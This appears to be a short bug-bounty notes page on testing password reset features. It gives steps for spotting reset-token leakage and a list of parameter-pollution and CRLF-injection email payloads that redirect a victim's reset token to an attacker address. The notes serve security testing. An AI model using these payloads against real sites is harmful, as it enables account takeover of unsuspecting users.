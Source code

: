 ```yaml
---
title: Password reset functionality
toc: true
date: 2021-04-14 14:14:26
tags: Summary
categories: [100 Cyber security, 110 Bug bounty, 112 Ideas]
---
```


Mindmap https://kathan19.gitbook.io/howtohunt/password-reset-functionality/password_reset_functionality
1. password reset token leakage
      1. Sent a password reset request using forget password
      2. Check your email
      3. Copy your reset page link and paste in another tab and make burp intercept on.
      4. Look for every request if you find similar token that is in reset link with other domain like: bat.bing.com or facebook.com
      5. Then there is reset password token leakage.
1. account takeover by password reset functionality
      1. email= victim@gmail.com&email=attacker@gmil.com
      2. email= victim@gmail.com%20email=attacker@gmil.com
      3. email= victim@gmail.com |email=attacker@gmil.com
      4. email= victim@gmail.com%0d%0acc:attacker@gmil.com
      5. email= victim@gmail.com&code= my password reset token
1. https://docs.google.com/presentation/d/1QzBl3k3n2q44ULyfZgr_gPZexj8nF5vD8JrS5AUJRbs/edit#slide=id.ga30203dab9_1_64

